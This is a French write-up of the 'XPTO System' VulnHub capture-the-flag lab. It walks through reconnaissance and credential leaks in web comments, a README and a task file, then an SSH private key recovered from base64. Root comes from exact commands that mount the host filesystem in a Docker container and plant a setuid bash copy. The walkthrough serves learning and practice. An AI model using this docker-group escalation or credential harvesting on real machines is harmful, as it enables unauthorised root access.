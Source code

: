 # Solution du CTF XPTO System de VulnHub

Voici [XPTO System](https://vulnhub.com/entry/xpto-system-1,635/), un petit CTF disponible sur VulnHub. L'objectif est de devenir root et de retrouver un document PDF sur le sysème. Le fichier n'a plus son extension PDF.

Ce CTF est plutôt simple mais contient quelques informations superflues qui peuvent faire perdre du temps au joueur qui penserait quelles ont une quelconque importance.

```
Nmap scan report for 192.168.56.53
Host is up (0.00034s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: XPTO System
| http-git: 
|   192.168.56.53:80/.git/
|     Git repository found!
|_    Repository description: Unnamed repository; edit this file 'description' to name the...
|_http-server-header: Apache/2.4.38 (Debian)
1337/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|_  2048 a1c75d66713eed5f4bb107f3be0f086f (RSA)
```

Comme un dossier .git est à la racine du site j'ai directement appelé un [git-dumper: A tool to dump a git repository from a website](https://github.com/arthaud/git-dumper) dessus mais me répo est vide.

Dans la page HTML du site on trouve un commentaire avec un possible nom d'utilisateur :

```html
<!-- Peter, you need to improve this here, it's very simple-->
```

Comme il n'y a aucun lien dans la page je lance `feroxbuster` qui me trouve quelques resources :

```
403 http://192.168.56.53/etc/
403 http://192.168.56.53/src/
200 http://192.168.56.53/logout.php
200 http://192.168.56.53/login.php
```

La page `login.php` contient un commentaire à propos d'un fichier ainsi qu'un autre nom :

```html
<!--Robert, this here should be corrected, check the README -->			
Click here to clean <a href = "logout.php" tite = "Logout">Session.
```

La page de logout retourne une erreur PHP causée vraisemblablement plus par une mauvaise pratique que par une quelconque vulnérabilité :

```html
You have cleaned session<br />
<b>Warning</b>:  Cannot modify header information - headers already sent by (output started at /var/www/html/logout.php:6) in <b>/var/www/html/logout.php</b> on line <b>7</b><br />
```

Pour un fichier readme on peut s'attendre à différentes extensiosn possibles : txt, md, rst, htm, html. J'ai fouillé dans les deux dossiers préalablement découverts mais en fait le fichier `README.md` était situé à la racine :

> # TODO
> 
> - Consertar a pagina de logout
> - Criar a pagina de dashboard pos login
>   
>   # Comandos uteis
>   
>   ## Start container
>   
>   $ docker run --name webserver -d -p 80:80 -v ~/http:/var/www/html php:apache
>   
>   ## Stop container
>   
>   $ docker stop webserver
>   
>   ## Start container
>   
>   $ docker start webserver
>   
>   ## Image list
>   
>   $ docker images
>   
>   ## Credential
>   
>   web:pipocadoce
>   
>   ### View Access
>   
>   /delete-me

## Passe-Partout

La page `/delete-me` contient un bloc de données base64. Quand on le décode on obtient un entête `openssh-key-v1` suivi de données brutes.

Il s'agit donc d'une clé privée SSH, il suffit de reprendre le base64 et de l'entourer par ceux deux lignes :

```
-----BEGIN OPENSSH PRIVATE KEY-----
-----END OPENSSH PRIVATE KEY-----
```

Quand on tente d'utiliser la clé, une passphrase est demandée. Le mot de passe `pipocadoce` (trouvé dans la page web) est accepté et on peut se connecter en SSH avec l'utilisateur `web`.

```shellsession
$ ssh -p 1337 -i data.txt web@192.168.56.53
Enter passphrase for key 'data.txt': 
web@xptosystem:~$ id
uid=1001(web) gid=1001(web) grupos=1001(web),112(docker)
web@xptosystem:~$ docker ps -a
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                NAMES
e2d500c879b0        php:apache          "docker-php-entrypoi…"   2 years ago         Up 21 minutes       0.0.0.0:80->80/tcp   webserver
web@xptosystem:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
php                 apache              811269837652        2 years ago         414MB
web@xptosystem:~$ ls
http  remember.txt
web@xptosystem:~$ cat remember.txt 
Task List:
- Request xptosys software test
- Schedule a meeting with the devsecops teams
- Change sysdev password: PassSecret#789%
- Request sysdev permissions release
- Schedule Status Report Meeting
```

Le mot de passe permet de passer `sysdev` via su. L'utilisateur ne semble pas avoir de droits particuliers :

`uid=1000(sysdev) gid=1000(sysdev) grupos=1000(sysdev)`

De plus on a les droits `docker` via `web` du coup pourquoi ne pas directement passer root ? On va lancer un container en réutilisant l'image présente sur le système et en montant la partition racine dans le dossier `/mnt` du docker :

```shellsession
web@xptosystem:~$ docker run -it -v /:/mnt 811269837652 bash
root@b47092337db7:/var/www/html# cd /mnt
root@b47092337db7:/mnt# cp bin/bash bin/gotroot
root@b47092337db7:/mnt# chmod 4755 bin/gotroot
root@b47092337db7:/mnt# exit
web@xptosystem:~$ gotroot -p
gotroot-5.0# id
uid=1001(web) gid=1001(web) euid=0(root) grupos=1001(web),112(docker)
gotroot-5.0# find /usr/ -type f -exec file {} \; | grep -i pdf
/usr/share/doc/debian/FAQ/debian-faq.en.pdf.gz: gzip compressed data, was "debian-faq.en.pdf", last modified: Sat Nov 17 22:45:23 2018, max compression, from Unix, original size 314116
/usr/share/doc/file/yetcfm@357/d4t4_exf1lter: PDF document, version 1.7
/usr/share/groff/1.22.4/tmac/pdfpic.tmac: troff or preprocessor input, ASCII text
/usr/share/bash-completion/completions/pdftotext: ASCII text
gotroot-5.0# ls -lh /usr/share/doc/file/yetcfm@357/d4t4_exf1lter
-r-------- 1 sys sys 299K jun  7  2015 /usr/share/doc/file/yetcfm@357/d4t4_exf1lter
```

Une fois dans le docker j'ai créé un shell setuid root sur le système que j'ai exécuté une fois sorti. De là je fouille à la recherche de fichiers PDFs en regardant le type mime de chacun. J'ai trouvé une correspondance sous `/usr/share/`.

Le flag était le suivant : `flag{C4r3_with_p3rm155ions}`

Au final un peu trop de fausses pistes pour un aussi petit CTF.



